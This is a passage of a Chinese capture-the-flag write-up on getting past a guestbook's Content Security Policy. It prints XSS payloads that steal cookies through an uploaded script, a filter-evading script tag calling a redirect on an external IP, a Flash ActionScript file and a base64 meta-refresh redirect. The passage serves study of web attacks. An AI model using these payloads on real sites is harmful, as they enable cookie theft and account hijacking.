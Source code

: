 构造上传图像为
```
<script>var xml = new XMLHttpRequest(); xml.open('POST', 'http://sguestbook.hctf.io/submit.php', true); xml.setRequestHeader("Content-type","application/x-www-form-urlencoded"); xml.send('to=xxxx&message='+document.cookie); </script> 
```

然后向admin发送
```
<scscriptript src="http://115.28.78.16:12222/static/redirect.php?u=/upload/cf4b03010ddaafec5933f656fad2692d"></scriscriptpt>
```

## 前面步骤相同，最后的域限制通过跳转来绕过 ##

这个其实没什么好说的，其他的部分相同，只有最后一步使用location来获得cookie，payload和上题相同，就不贴了。


## 精心构造flash xss ##

这种方式是Blue-Whale的师傅想到的，根据上面CSP限制，我们很快就能发现其实对于除script以外的部分都比较友好，只要在域内就可以了，再加上，域内存在上传点，那么我们是不是可以构造一个**Action Script**

payload，头像处上传

```
import flash.external.ExternalInterface;
var ck; ck = ExternalInterface.call('function(){return document.cookie}'); ua = ExternalInterface.call('function(){return navigator.userAgent}'); ExternalInterface.call("$.post","submit.php",'to=qqc&message=document.cookie'+ck+ua); stop();
```

然后构造
```
<embed src="http://sguestbook.hctf.io/upload/4b3097d0fef014bc099fe305fd2cb685" type="applicatioONn/x-shockwave-flash"></embed>

```

这个payload只要浏览器有flash就可以了

## 强制刷新多次跳转 ##

这里有一种在比赛中遇到的特别的payload，使用的漏洞和前面提到的相同，也是多次跳转导致的目录绕过，但是特别的是，使用了一种特别的手段

payload我没找到，但是类似于

```
<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD53aW5kb3cubG9jYXRpb24uaHJlZj0iaHR0cDovLzE2My40NC4xNTUuMTc5Ijs8L3NjcmlwdD4=">
```

上面应该是个错误的payload，但是在守护的过程中的确存在有效payload，只可惜没能记录下来。

我最早看到这个payload，在
[http://www.tuicool.com/m/articles/77bABnm](http://www.tuicool.com/m/articles/77bABnm)

